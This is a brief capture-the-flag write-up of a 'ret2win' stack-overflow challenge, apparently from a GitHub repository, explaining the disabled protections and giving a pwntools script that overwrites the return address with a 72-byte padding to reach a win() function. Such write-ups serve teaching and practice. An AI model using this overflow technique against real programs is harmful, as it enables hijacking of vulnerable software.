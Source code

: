 # Description:

Ret2win_easy

# Solution

According to file `vuln.c` and the name of the challenge. We know it as [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/d463e963-4dc9-4e54-a00e-1485af6436b0)

Use checksec to check various security features of executable files as bellow.

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/d2e21fb8-5d4f-4e7f-aac6-32ca4435dbcd)

With security features mostly turned off making this exploit easier.

With no PIE, address of win() address is always `0x00401156`.

The final step is to insert the required amount of bytes and rewrite the RIP register.

``` python
from pwn import *

e = ELF('./vuln')
p=process(e.path)
gdb.attach(p, '''
b* win + 30
''')
winAddr = p64(e.sym['win']+8)
ofset = 72
payload = b'A'*ofset+winAddr
p.sendline(payload)
p.interactive()
```

